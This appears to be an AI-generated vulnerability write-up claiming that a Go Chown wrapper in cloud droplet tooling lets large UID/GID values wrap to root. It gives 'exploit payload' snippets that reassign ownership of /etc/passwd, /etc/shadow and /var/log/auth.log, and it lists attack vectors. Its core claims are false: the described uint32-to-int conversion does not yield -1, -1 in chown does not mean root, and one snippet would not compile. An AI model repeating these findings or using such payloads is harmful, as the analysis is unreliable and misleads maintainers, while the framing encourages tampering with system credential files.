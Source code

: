 3. **Integer Wraparound**:
   - Values ≥ 2³¹ wrap around to negative integers
   - `uid = 4294967295` → `int(uid) = -1` (root)

4. **Exploitation**:
   - Assign file ownership to privileged users (e.g., root)
   - Bypass file permission checks
   - Gain unauthorized access to sensitive files


## Detailed Vulnerability Exploits

### Vulnerable Code Snippet
```go [citation:search result]
// Original vulnerable implementation (Line 35)
func (o *osOperationsHelper) Chown(name string, uid uint32, gid uint32) error {
    return os.Chown(name, int(uid), int(gid))  // INSECURE CONVERSION
}
```

### Exploit Payload 
**Scenario 1: Root Ownership Assignment**
```go
// UID 4294967295 (2³² - 1) wraps to -1 (root)
o.Chown("/etc/passwd", 4294967295, 4294967295)
// Result: File owned by root:root
```

**Scenario 2: Privileged User Access**
```go
// UID 4294967294 wraps to -2 (often system user)
o.Chown("/etc/shadow", 4294967294, 4294967294)
// Result: File owned by system user
```

**Scenario 3: Permission Bypass**
```go
// Make sensitive file owned by current user
currentUID := uint32(1000)
wrappedUID := currentUID + 4294967296  // 2³²
o.Chown("/var/log/auth.log", wrappedUID, wrappedUID)
// Wraps to original UID 1000
```

### Attack Vectors
1. **Malicious Configuration**:
   - Compromised droplet metadata service
   - Malicious cloud-init scripts

2. **API Abuse**:
   - Manipulated DigitalOcean API responses
   - Compromised control plane communications

3. **Supply Chain Attacks**:
   - Modified dependencies injecting large UID/GID values
   - Compromised build systems
